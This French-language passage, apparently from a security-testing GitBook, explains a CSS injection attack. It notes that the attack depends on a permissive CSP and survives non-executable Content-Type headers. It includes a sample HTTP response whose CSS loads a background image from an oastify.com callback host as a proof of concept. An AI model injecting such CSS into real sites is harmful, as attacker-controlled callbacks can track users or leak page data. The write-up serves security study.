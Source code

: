 <figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Cette attaque n'est possible seulement parce que la CSP permet le chargement d'image distante. Dans le cas contraire, l'impact de cette injection sera sans doute réduite.
{% endhint %}

Ici l'attaque fonctionnera également dans le cas où le serveur renvoie un `Content-Type` de type `application/octet-stream`. Et plus intéressant, l'attaque fonctionnera même si le Content-Type retourné par le serveur n'est pas exécutable par exemple avec `image/jpeg` :&#x20;

{% code overflow="wrap" %}
```http
HTTP/1.1 200 OK
Content-Type: image/jpeg
Content-Length: 107
Connection: close
tpAccept-Ranges: bytes

input {
  background-image:url(http://z1162jdi8otoae191lpbq0o2ctik6auz.oastify.com/poc-x-content-type);
}
```
{% endcode %}
